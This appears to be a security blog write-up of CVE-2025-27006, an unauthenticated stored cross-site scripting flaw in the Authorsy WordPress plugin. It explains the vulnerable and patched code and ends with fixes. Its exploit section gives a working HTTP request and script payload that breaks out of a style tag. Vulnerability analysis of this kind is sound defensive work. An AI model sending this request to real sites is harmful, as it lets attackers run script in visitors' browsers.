



<!--more-->

The vulnerability exists in the **Authorsy** plugin for WordPress prior to version **1.0.6**. This could allow an attacker to inject malicious code (e.g., redirect scripts, ads, or other HTML payloads) into the website, which would execute when visitors open the page.

* **CVE ID**: [CVE-2025-27006](https://www.cve.org/CVERecord?id=CVE-2025-27006)
* **Product**: [WordPress Authorsy Plugin](https://wordpress.org/plugins/authorsy/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.0.5
* **CVSS severity**: Medium (6.5)
* **OWASP Top 10**: A1: Broken Access Control
* **Required Privilege**: Subscriber

> Although the description requires **Subscriber** privileges, it can actually be exploited **Unauthenticated**.

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Authorsy**: v1.0.5 (vulnerable) and v1.0.6 (patched)
* **Diff tool**: **meld** or any tool to compare two versions

## Analysis

The plugin allows custom CSS, stores it in `wp_options`, and injects it directly into the `<style>` tag on pages. However, users can interact with the API to modify CSS without proper **access control**, leading to **Broken Access Control** and potential **XSS** if malicious payloads are inserted.

### Patch Diff

Use a diff tool to compare vulnerable and patched versions. Notice clear differences in two files: **core/settings/api-settings.php** and **core/enqueue-inline/enqueue-inline.php**.

**File core/enqueue-inline/enqueue-inline.php**

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single()){
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

User data is inserted without validation, leaving it vulnerable to **XSS**.

Patched version:

```php
public function custom_inline_css()
{
    $custom_css  = '';
    $ea_custom_css = authorsy_get_option('ea_custom_css');
    if(is_single() && !empty($ea_custom_css)){
        // Sanitize and escape to prevent XSS
        $ea_custom_css = wp_strip_all_tags($ea_custom_css);
        $ea_custom_css = esc_html($ea_custom_css);
        $custom_css.= $ea_custom_css;
    }
    
    $custom_css .= "
    :root { 
        --ea-color-main: $primary_color;  
    }
    "
    wp_add_inline_style('authorsy-custom-css', $custom_css);
}
```

Sanitization ensures only safe CSS is injected.



**File core/settings/api-settings.php**

Vulnerable:

```php
'permission_callback' => function () {
    return true;
},
```

Patched:

```php
'permission_callback' => function () {
    return current_user_can('manage_options');
},
```

The permission callback now restricts access to **admins**, mitigating **Broken Access Control** and indirectly reducing **XSS** risk.



### How it works

`custom_inline_css()` is hooked to [`wp_head`](https://developer.wordpress.org/reference/hooks/wp_head/). When WordPress renders the `<head>` section, this function concatenates user options from `authorsy_get_option()` into `$custom_css` and adds it inline:

```php
$custom_css  = authorsy_get_option('ea_custom_css');
```

Since this data is stored in the database, this is **Stored XSS**.

### Exploit

Send a **POST** request to `/wp-json/authorsy/v1/settings` with an XSS payload:

```http
POST /wp-json/authorsy/v1/settings HTTP/1.1
Host: localhost
Content-Type: application/json

{
"primary_color":"</style><script>alert(document.domain)</script><style>"
}
```

The payload closes the existing `<style>` and injects a `<script>` tag. Visiting any page will execute the XSS.



```html
<style>
    :root { 
        --ea-color-main: </style><script>alert(document.domain)</script><style>;  
    } 
</style>
```

## Conclusion

The `CVE-2025-27006` vulnerability in **Authorsy <= 1.0.5** demonstrates **Broken Access Control** combined with **XSS**. Root causes:

1. REST API lacks proper access control (`permission_callback` always true).
2. Custom CSS is inserted without **sanitization**, enabling injection of `<script>` tags.
3. Nonce verification does not stop execution when invalid, making security checks ineffective.

**Key takeaways**:

* Always use proper `permission_callback` to prevent **Broken Access Control**.
* Sanitize and escape user input before rendering in HTML/CSS/JS to prevent **XSS**.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Authorsy Plugin <= 1.0.5 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/authorsy/vulnerability/wordpress-authorsy-plugin-1-0-5-cross-site-scripting-xss-vulnerability)
